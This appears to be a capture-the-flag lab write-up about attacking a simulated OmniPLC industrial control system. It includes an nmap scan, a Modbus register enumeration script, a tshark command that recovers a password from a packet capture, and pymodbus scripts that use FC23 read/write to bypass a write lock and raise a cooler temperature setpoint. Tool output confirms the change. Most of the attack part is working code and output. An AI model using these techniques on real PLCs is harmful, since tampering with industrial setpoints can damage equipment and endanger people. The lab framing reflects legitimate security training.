









Same as usual I will perform a full scan of all the TCP ports open on the machine.

```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Werkzeug httpd 3.0.1 (Python 3.9.18)
|_http-favicon: Unknown favicon MD5: F50F5CED9F5595CD8474030308510D7B
| http-title: OmniPLC v1.0 - Log-in
|_Requested resource was /panel/login
|_http-server-header: Werkzeug/3.0.1 Python/3.9.18
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
TCP/IP fingerprint:
OS:SCAN(V=7.99%E=4%D=4/21%OT=80%CT=%CU=30919%PV=Y%DS=2%DC=T%G=N%TM=69E7C9F1
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=106%TI=Z%CI=Z%II=I%TS=B)SEQ(
OS:SP=104%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54EST11NW7%O2=M54EST11N
OS:W7%O3=M54ENNT11NW7%O4=M54EST11NW7%O5=M54EST11NW7%O6=M54EST11)WIN(W1=FE88
OS:%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54E
OS:NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R
OS:=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=
OS:AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)U1(R=Y%DF=N%T=
OS:40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S
OS:)

Uptime guess: 32.761 days (since Fri Mar 20 01:47:14 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros


```

# HTTP

From the frontend I can see this should be a portal to the OmniPLC login page?


Now from the guide I found this default credentials:


And the only user that worked was guest so my idea was not to fooprint which HMI is tied to which PLC and the (OmniPLC HMI on .2) has this particulat registry golder:


Here I asked Gemini to make me a quick strcito that enumerates the registy and as you see the .3 is the PLC attached to this one:

```bash
import socket
import struct
import time

targets = ["172.19.5.3", "172.19.5.7", "172.19.5.9", "172.19.5.11", "172.19.5.13"]

# CONFIGURATION
START_ADDR = 0
REG_COUNT = 50 

def get_modbus_data(ip, fc):
    # FC 03 = Holding, FC 04 = Input
    payload = struct.pack(">HHHBBHH", 0x0001, 0x0000, 0x0006, 0x01, fc, START_ADDR, REG_COUNT)
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(0.8)
        s.connect((ip, 502))
        s.send(payload)
        response = s.recv(2048)
        s.close()
        if len(response) >= 9:
            data_bytes = response[9:]
            return struct.unpack(f">{len(data_bytes)//2}H", data_bytes)
    except:
        return None
    return None

for ip in targets:
    print(f"\nAUDIT REPORT: {ip}")
    print(f"{'Address':<8} | {'Holding (FC03)':<15} | {'Input (FC04)':<15}")
    print("-" * 45)
    
    holdings = get_modbus_data(ip, 3)
    inputs = get_modbus_data(ip, 4)
    
    if holdings or inputs:
        # Loop through the range
        for i in range(REG_COUNT):
            h_val = holdings[i] if holdings and i < len(holdings) else 0
            i_val = inputs[i] if inputs and i < len(inputs) else 0
            
            # Only print if there is actual data in one of them
            if h_val != 0 or i_val != 0:
                marker = ""
                if h_val == 11100 or i_val == 11100: marker = " <--- BOIL_TIME"
                if h_val == 4800 or i_val == 4800: marker = " <--- AGITATOR"
                
                print(f"{i + START_ADDR:<8} | {h_val:<15} | {i_val:<15}{marker}")
    else:
        print(f"{' ':^45} [!] DEVICE BUSY / OFFLINE")
    
    time.sleep(0.1)
```


# A step back

Now I got more  input from another dude on Discord and apparenty I must be able to obtain the password from the pcap and since the article says that the password is saved in these registries:  


This means I need to filter all the write actions that are over the 3890 and only the response(because Wireshark shows the query to PLC and the response that PLC macthes the same value) it shoudl result in something similar:

```
 tshark -r lautering_password_check.pcap -Y "(modbus.reference_num >= 3890) && (modbus.response_time > 0)" -T fields -e modbus.regval_uint16
 
56
90
65
110
51
84
77
122
67
49
64
106
42
75
85
33
```

If we convert it should result to this

```
8ZAn3TMzC1@j*KU!
```

# Back on Track

Now after I have the correct password to allow RW permissions I need to check the current firware  




From here we might understand that some securitity controlls might allow me to write stuff?

● Users may experience elevated latency in communication between the HMI and PLC when the system is operating under heavy load.  
● If a request is sent to a restricted address, or if read/write restrictions are in place, the Modbus server on the PLC may either not respond or return a null response.

From here can we see the normal data behaviour:  


And the goal of the challenge is to make the temp higher?

```bash
Temperature is being actively monitored and an alarm will trigger if it exceeds 76°C.
Write operation in Modbus is disabled, even for password requests. contact the Administrator to change the configuration.
The Modbus server is password protected for write operations (Auth via Modbus)
Process Update: Inkate completed.
```

Now I guess I just need to footprint which is the correct address for the temperature and since t comes from a sensor I guess it must be part of the input registries which normally are READONLY!

```bash
┌ modbus-tui v1.0.4 (c) 2026 ForestTree ──────────────────────────────────────────────────────────────────────────────────┐
│ Client  172.19.8.3:502 | unit=1 | Connected | poll=502ms | 0-based addressing                                           │
└─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┘
┌ Input Registers @1 ─────────────────────────────────────────────────────────────────────────────────────────────────────┐
│Addr     Hex      Int16      Timestamp               Label                                                               │
│1        0042     66         2026-04-24 21:32:41.665                                                                     │
│2        005A     90         2026-04-24 21:32:34.637                                                                     │
│3        0000     0          2026-04-24 21:32:34.184                                                                     │
│4        0000     0          2026-04-24 21:32:34.184                                                                     │
│5        0000     0          2026-04-24 21:32:34.184                                                                     │
│6        0000     0          2026-04-24 21:32:34.184                                                                     │
│7        0000     0          2026-04-24 21:32:34.184                                                                     │
│8        0000     0          2026-04-24 21:32:34.184                                                                     │
│9        0000     0          2026-04-24 21:32:34.184                                                                     │
│10       0000     0          2026-04-24 21:32:34.184                                                                     │
                                                                           
```

Now unfortunately here where I was about to test this:

```bash
//If editing the digial(DI)
python3  omni_fc23_writer.py --host 172.19.8.3 --auth '8ZAn3TMzC1@j*KU!' --auth-addr 3890 --address 1 --data 0x64

//If editing the slave(DI)
python3  omni_fc23_writer.py --host 172.19.8.3 --auth '8ZAn3TMzC1@j*KU!' --auth-addr 3890 --address 1027 --data 0x64
```

But the VPN cert expired, damn it!



# Back on Track

Here I had to wait a whole week for the support to fix the lab but here I was trying the old script and I think the password might be a red-herring cause I can't trite more than 12 chars?



Whic means the default password must be used(followed by 52 DEC aka 4 used as ending flag of the password):



And I used this python script to write the password:

```python
from pymodbus.client import ModbusTcpClient

# Target PLC Settings
PLC_IP = '172.19.5.3'
PORT = 502
UNIT_ID = 7 # Based on your TUI output
AUTH_ADDR = 3890
PASSWORD = "OmniPLC123#4"

def inject_password():
    client = ModbusTcpClient(PLC_IP, port=PORT)
    
    if not client.connect():
        print(f"[-] Cannot connect to {PLC_IP}")
        return

    # Convert the full 16-char string to decimal integers
    # This ensures 3902-3905 get the '*', 'K', 'U', '!' values
    auth_values = [ord(char) for char in PASSWORD]
    
    print(f"[+] Injecting {len(auth_values)} characters into registers starting at {AUTH_ADDR}...")

    try:
        # We use FC23 (readwrite_registers) to bypass the misconfigured write lock.
        # We read and write the same block to ensure the firmware processes the auth.
        response = client.readwrite_registers(
            read_address=AUTH_ADDR,
            read_count=len(auth_values),
            write_address=AUTH_ADDR,
            write_registers=auth_values,
            slave=UNIT_ID
        )

        if response.isError():
            print(f"[-] Modbus Error: {response}")
        else:
            print("[+] Success! Password registers updated.")
            print("[+] TUI should now show values in 3902, 3903, 3904, and 3905.")

    except Exception as e:
        print(f"[-] Error during injection: {e}")
    finally:
        client.close()

if __name__ == "__main__":
    inject_password()

```

And now the pasword in in place:

```bash
 modbus-tui v1.0.4 (c) 2026 ForestTree ─────────────────────────────────────────────────────────────────────┐
│ Client  172.19.5.3:502 | unit=7 | Connected - poll=100ms | 0-based addressing                              │
└────────────────────────────────────────────────────────────────────────────────────────────────────────────┘
┌ Holding Registers @3890 ───────────────────────────────────────────────────────────────────────────────────┐
│Addr     Hex      Int16      Timestamp               Label                                                  │
│3890     004F     79         2026-04-30 10:22:29.126                                                        │
│3891     006D     109        2026-04-30 10:22:29.126                                                        │
│3892     006E     110        2026-04-30 10:22:29.126                                                        │
│3893     0069     105        2026-04-30 10:22:29.126                                                        │
│3894     0050     80         2026-04-30 10:22:29.126                                                        │
│3895     004C     76         2026-04-30 10:22:29.126                                                        │
│3896     0043     67         2026-04-30 10:22:29.126                                                        │
│3897     0031     49         2026-04-30 10:22:29.126                                                        │
│3898     0032     50         2026-04-30 10:22:29.126                                                        │
│3899     0033     51         2026-04-30 10:22:29.126                                                        │
│3900     0023     35         2026-04-30 10:22:29.126                                                        │
│3901     0034     52         2026-04-30 10:22:18.523                                                        │
│3902     0000     0          2026-04-30 10:21:22.846                                                        │
│3903     0000     0          2026-04-30 10:21:22.846                                                        │
│3904     0000     0          2026-04-30 10:21:22.846                                                        │
│3905     0000     0          2026-04-30 10:21:22.846                                                        │
│3906     0000     0          2026-04-30 10:21:22.846                
```

So now I asked AI to parse the PLC code and apparently there is a catch:  


Now something strange i notices that analog HR cannot be changed:



But the digital one I can:



So this script actually does:

- Uses the FC23(aka multi read/write registries) to save the password in registriy 3890.
- Edit the Digital HR and modify the HR 1027 to edit the target temp to 90 degres.

```python
from pymodbus.client import ModbusTcpClient

client = ModbusTcpClient('172.19.5.3', port=502)
pwd = [ord(c) for c in "OmniPLC123#4"]

if client.connect():
    # FC23: Keep the password active and blast the cooler setpoint at 1027
    client.readwrite_registers(
        read_address=3890,
        read_count=len(pwd),
        write_address=1027, 
        write_registers=[90]
    )
    
    print("[+] sp_cooler at Register 1027 set to 90.")
    print("[+] Watch the TUI; 0040 should change to 005A.")
    client.close()
else:
    print("Connection failed.")
```

And we can see a success now:

```bash
┌ modbus-tui v1.0.4 (c) 2026 ForestTree ──────────────────────────────────────┐
│ Client  172.19.5.3:502 | unit=1 | Connected \ poll=100ms | 0-based addressin│
└─────────────────────────────────────────────────────────────────────────────┘
┌ Holding Registers @1020 ────────────────────────────────────────────────────┐
│Addr     Hex      Int16      Timestamp               Label                   │
│1020     0000     0          2026-04-30 11:30:19.610                         │
│1021     0000     0          2026-04-30 11:30:19.610                         │
│1022     0000     0          2026-04-30 11:30:19.610                         │
│1023     0000     0          2026-04-30 11:30:19.610                         │
│1024     0000     0          2026-04-30 11:30:19.610                         │
│1025     0001     1          2026-04-30 11:30:20.209                         │
│1026     003C     60         2026-04-30 11:30:20.209                         │
│1027     005A     90         2026-04-30 11:33:57.529                         │
│1028     12C0     4800       2026-04-30 11:30:20.209                         │
│1029     0034     52         2026-04-30 11:30:20.209                         │
│1030     0032     50         2026-04-30 11:30:20.209                         │
│1031     005A     90         2026-04-30 11:30:20.209                         │
│1032     0000     0          2026-04-30 11:30:19.610                         │
│1033     0000     0          2026-04-30 11:30:19.610                         │
│1034     0000     0          2026-04-30 11:30:19.610                         │
│1035     0000     0          2026-04-30 11:30:19.610                         │
│1036     0000     0          2026-04-30 11:30:19.610                         │
│1037     0000     0          2026-04-30 11:30:19.610                         │
│1038     0000     0          2026-04-30 11:30:19.610                         │
│1039     0000     0          2026-04-30 11:30:19.610                         │
│                                                          
```



&nbsp;

&nbsp;

&nbsp;